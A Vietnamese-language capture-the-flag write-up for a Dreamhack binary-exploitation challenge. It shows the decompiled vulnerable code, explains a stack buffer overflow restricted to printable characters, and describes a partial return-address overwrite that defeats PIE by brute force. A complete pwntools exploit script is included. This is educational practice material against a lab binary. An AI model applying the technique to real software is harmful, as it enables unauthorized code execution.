





# Decription

[](https://dreamhack.io/wargame/challenges/1985)
# Source

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts("Welcome!");
  sub_1297();
  puts("You are not a hacker!");
  return 0;
}
__int64 sub_1297()
{
  __int64 result; // rax
  _QWORD buf[2]; // [rsp+0h] [rbp-10h] BYREF

  buf[0] = 0LL;
  buf[1] = 0LL;
  num = read(0, buf, 32uLL);
  for ( i = 0; ; ++i )
  {
    result = (unsigned int)num;
    if ( i >= num )
      break;
    if ( *((char *)buf + i) <= ' ' || *((_BYTE *)buf + i) == 127 )
    {
      puts("You are hacker!");
      exit(1);
    }
  }
  return result;
}

void __noreturn sub_1339()
{
  fp = fopen("flag.txt", "rt");
  if ( !fp )
  {
    puts("[!] Flag file error. Send DM to rootsquare...");
    exit(1);
  }
  __isoc99_fscanf(fp, "%s", flag);
  fclose(fp);
  printf("Flag is %s\n", flag);
  exit(0);
}
```

# Problem

```c
Hàm sub_1287() có buf là 1 mảng 2 phần tử khai báo với Qword 8 bytes -> buf 16 bytes. Trong khi đó hàm read nhập vào buf với 32 bytes.

-> bof.

Hàm sub_1339() là hàm in flag.

Nhưng trong input người nhập phải là các ký tự in được.
```

# Solve
Mở gdb và kiểm tra chế độ bảo vệ

```c
gef➤  checksec                                                                                                                                                                                                                              
[+] checksec for '/home/long/Downloads/dreamhack/pwn/asciibof/main'                                                                                                                                                                         
Canary                        : ✘                                                                                                                                                                                                           
NX                            : ✓                                                                                                                                                                                                           
PIE                           : ✓                                                                                                                                                                                                           
Fortify                       : ✘                                                                                                                                                                                                           
RelRO                         : Full 
```
Canary không hoạt động nhưng có PIE, Các địa chỉ sẽ là động.

Tính offset đến ret.



24 bytes là phần padding và sau đó là ret.



Dù PIE là địa chỉ động nhưng 12 bits cuối sẽ không thay đổi. Vậy ta chỉ cần thay đổi 12 bits cuối của địa chỉ ret thành địa chỉ của sub_1339()


Trong ida có 2 địa chỉ trong sub_1339() khả quan là mov rbp, rsp và lea rax, modes.



0x133e lấy 12 bits cuối là 33e. Ta cần tìm trong ascii ký tự nào là 0xx3 và 0x3e

-> >S/ >C/ AC/AS ...

payload = b'aaaaaaaaaaaaaaaaaaaaaaaa>S'

Vấn đề là còn 4 bits thì ta hên xui nên cần bruteforce.




# Full Script
```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('main', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
# def GDB():
#     if not args.REMOTE:
#         gdb.attach(p, gdbscript='''
# b* main+83
#
#         c
#         ''')
#         input()
#
#
# if args.REMOTE:
#     p = remote('')
# else:
#     p = process([exe.path])
# GDB()

q=1
while q==1:
    # p = remote('host3.dreamhack.games', 21274)
    p = process([exe.path])
    payload = b'aaaaaaaaaaaaaaaaaaaaaaaa>S'
    s(payload)
    res = p.recv(timeout=1)
    if b'DH{' in res:
        print(res)
        q=2
    p.close()
p.interactive()
```
